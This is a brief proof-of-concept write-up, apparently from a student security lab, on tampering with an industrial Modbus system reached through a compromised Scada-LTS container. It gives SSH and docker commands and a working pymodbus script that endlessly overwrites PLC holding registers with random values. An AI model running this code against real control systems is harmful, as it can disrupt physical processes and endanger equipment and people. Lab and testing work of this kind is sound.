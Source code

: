 # Change modbus registers Proof of concept vulnerability

If the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

The registers should now start being overwritten with random data.

![](img/random_modbus.png)

![](img/scada_poc1.jpg)

![](img/scada_poc2.jpg)
